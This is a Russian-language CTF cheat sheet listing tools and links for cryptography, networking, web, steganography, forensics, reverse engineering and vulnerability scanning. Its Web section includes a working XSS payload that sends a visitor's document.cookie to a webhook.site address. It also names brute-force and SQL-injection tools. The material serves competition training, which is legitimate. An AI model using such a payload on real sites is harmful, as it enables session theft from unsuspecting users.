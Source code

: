 ###### РЕКОМЕНДУЮ СТАВИТЬ [КАЛИ ЛИНУКС](https://www.kali.org/) И ЗАРАНЕЕ СТАВИТЬ ВСЁ ИЗ ВАШЕЙ КАТЕГОРИИ

# Cryptography
- [quip quip](https://quipqiup.com/)
  - решалка криптограм которая стремиться к минимальной энропии(старается организовать слова)
- [cryptii](https://cryptii.com/)
  - многоуровневые шифрования/дешифрования
- [b64/32/url/hash/file en/de/coder](https://emn178.github.io/online-tools/base32_decode.html)
  - полезная штука
- [dcode (france)](https://www.dcode.fr/rot-13-cipher)
  - расшифровка всего
  - вбиваете в поиск шифр и оно откроет решалку данного шифра
  - умеет решать даже судоку)
- [crack station](https://crackstation.net/)
  - расшифровывает некоторые хеши
  - богатая база хешей(радужная таблица) 15 gb
- [hashes.com](https://hashes.com/en/decrypt/hash)
  - расшифровывает некоторые хеши
- [Hash identifier](https://www.kali.org/tools/hash-identifier/)
  - Проверка какой это хеш
  - [Online 1](https://www.tunnelsup.com/hash-analyzer/)
  - [Online 2](https://hashes.com/en/tools/hash_identifier)

# Network
- [wireshark](https://www.wireshark.org/#download)
  - в основном для загрузки pcap файлов содержащих кучу сетевых пакетов
  - внимательно читайте задание и ищите то что говорят
- [fiddler](https://www.telerik.com/download/fiddler-everywhere) 
  - подмена ответов запросов
- [burp suite](https://portswigger.net/burp/communitydownload)
  - подмена запросов и их отправка
  - и много других неизученых мною фич

# Web
#### XSS:
- Использовать webhook.site для возвратного получения данных(callback)
- <img src=x onerror=this.src='https://webhook.site/fad40d81-20a3-4ce9-9399-0c9a9a6e6a24/'+document.cookie;>
- В примере выше я отправляю на вебхук куки в качестве открытия страницы с названием куки

#### Extensions:
- шпоры по sql и тд
  - Firefox: https://addons.mozilla.org/en/firefox/addon/hacktools/ 
  - Chrome: https://chrome.google.com/webstore/detail/hack-tools/cmbndhnoonmghfofefkcccljbkdpamhi
  - ![img.png](img.png)

#### VPN:
- [windscribe](https://windscribe.com)
  - делаете аккаунт, затем в настройках аккаунта вводиться промокод "ПИЗДЕЦ" дает 30 гб
- [cloudflare warp](https://1.1.1.1/)
  - впн от cloudflare 
# Stenography
- Восстановление удаленных файлов
- Контейнеры 
  - Veracrypt, Truecrypt
- exiftool {имя_исполнительного_файла}
  - ищет метаданные
- Binwalk 
  - поиск исполняемых и других файлов в картинке
- grep -i "flag{"
  - поиск флага в прямую
- [dir binary search](python_tools/dir_binary_search.py)
  - в прямую ищет байты в директории рекурсивно
- [tineye](https://tineye.com/)
  - поиск по картинке
- [imagemagick](https://imagemagick.org/index.php)
  - манипуляция картинками
- [stegsolve.jar](https://github.com/zardus/ctf-tools/blob/master/stegsolve/install)
  - часто решает задачу сразу
- [steghide](https://steghide.sourceforge.net/download.php)
  - чтобы скачать нужен ВПН
  - steghide --extract -sf {имя_файла}
  - попытка найти что-либо в файле
- [pngcheck](http://www.libpng.org/pub/png/apps/pngcheck.html)
  - проверка на целостность картинки
- [zsteg](https://github.com/zed-0xff/zsteg)
  - поиск чего либо в PNG, BMP
- [smart deblur](http://smartdeblur.net/)
  - убирает размывание с фотографии
- [stegseek](https://github.com/RickdeJager/stegseek#releases)
  - перебирает все пароли 
  - [kali](https://www.kali.org/tools/stegcracker/)
- https://futureboy.us/stegano/decinput.html
- http://stylesuxx.github.io/steganography/
- https://www.mobilefish.com/services/steganography/steganography.php
- https://manytools.org/hacker-tools/steganography-encode-text-into-image/
- https://steganosaur.us/dissertation/tools/image
- https://georgeom.net/StegOnline

# Forensics
- Дампы памяти (.mem файлы) 
  - HxD Hex Editor 
    - редактор сырых данных
  - Volatility 
    - инструмент поиска и анализа инфы (ТОП)
  - Foremost 
    - поиск файлов из дампа


# Assembler
- file {имя_исполнительного_файла}
  - даёт информацию о расширении, подписи и формате
  - иногда организаторы могут дать бинарник, который окажется другим файлом, например картинкой
- strings -a {имя_исполнительного_файла}
  - ищет все строки в исп. фале
- base64
  - в интернете куча декодеров для этого шифра
  - часто используется
- [Ida Decompiler](https://out7.hex-rays.com/files/idafree77_windows.exe)
  - визуализация кода в виде графа
- [Assembler Reference](http://ref.x86asm.net/coder32.html#modrm_byte_16)
  - это сайт с инструкциями в ассемблере и их значениями в шестнадцатеричной системе счисления.
- [GDB Documentation](https://www.sourceware.org/gdb/documentation/)
  - мануал по gdb
- [Radare2](https://github.com/radareorg/radare2)
  - красивый gdb
- [BenEater](https://www.youtube.com/c/BenEater?app=desktop)
  - ютубер, объясняет ассемблер

# Vulnerability search
- [snyk-cli](https://docs.snyk.io/snyk-cli)
  - имбище(must have)
  - Ищет уязвимости в определенной папке.
  - Для тех заданий, где предоставлены исходники.
  - Даже если цель задания в другом, сканируйте код всё равно, может быть обходной путь.
- [sqlmap](https://sqlmap.org/)
  - Взлом sql и поиск уязвимостей в sql базе
- [thc-hydra](https://www.kali.org/tools/hydra/)
  - Bruteforce универсальный - thc-hydra
  - [Github](https://github.com/vanhauser-thc/thc-hydra)
- [Math.random() JS](https://www.youtube.com/watch?v=-h_rj2-HP2E)
  - взлом псевдо рандома в js
- [wappalayzer](https://addons.mozilla.org/en-US/firefox/addon/wappalyzer/)
  - получения технологий которые использует сайт
  <details>
    <summary>Картинка</summary>
    <img src="img_1.png">
  </details>
- [Insecure Deserialization Attack](https://www.youtube.com/watch?v=jwzeJU_62IQ)
  - атака на десиариазацию(восстановление обьектов из файла)
- [HTTP pollution](https://www.youtube.com/watch?v=QVZBl8yxVX0)
  - подмена параметров
- [XSS guide](https://www.youtube.com/watch?v=EoaDgUgS6QA)
  - полный разбор XXS(инъекция скрипта вместо текста)
- [Cross-Site Request Forgery](https://www.youtube.com/watch?v=eWEgUcHPle0)
  - получение куки через подмен получателя куки

# General
- [ctf-checklist](https://fareedfauzi.gitbook.io/ctf-checklist-for-beginner/)
- ![img_2.png](img_2.png)
  ###### [CTFCheatsheet.xmind](CTFCheatsheet.xmind)
- https://docs.pwntools.com/en/stable/intro.html
